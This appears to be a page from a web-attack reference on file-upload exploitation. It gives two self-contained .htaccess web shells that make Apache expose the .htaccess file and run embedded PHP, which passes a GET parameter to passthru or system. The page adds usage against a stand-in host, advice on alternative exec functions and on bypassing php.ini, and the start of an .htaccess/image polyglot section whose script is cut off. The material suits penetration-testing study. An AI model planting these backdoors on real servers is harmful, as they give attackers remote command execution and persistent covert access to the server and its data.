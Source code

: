 ```apacheconf[.htaccess]
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess

###### SHELL ###### <?php echo "\n";{{ php-function passthru }}($_GET['{{ parameter command }}']." 2>&1"); ?>###### LLEHS ######
```

#### Self contained web shell #2

```apacheconf[.htaccess]
# htaccess backdoor shell
# this is relatively stealthy compared to a typical webshell

# overriding deny rule
# making htaccess accessible from the internet
# without this you'll get a HTTP 403
<Files ~ "^\.ht">
Require all granted
Order allow,deny
Allow from all
</Files>

# Make the server treat .htaccess file as .php file
AddType application/x-httpd-php .htaccess

# <?php {{ php-function system }}($_GET['{{ parameter command }}']); ?>

# To execute commands you would navigate to:
# http://vulnerable.com/.htaccess?{{ parameter command }}=YourCommand

# If system(); isnt working then try other syscalls
# e.g. passthru(); shell_exec(); etc
# If you still cant execute syscalls, try bypassing php.ini via htaccess
```

#### .htaccess/xbm image polyglot

It is possible to create a polyglot between an `.htacess` configuration and a `xbm` image.
The following python script shows you how:

<smart-tabs variable="python-version" :tabs="{'python': 'Python 3', 'python-legacy': 'Python 2'}">
<template v-slot:python>


[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload
[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures
[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample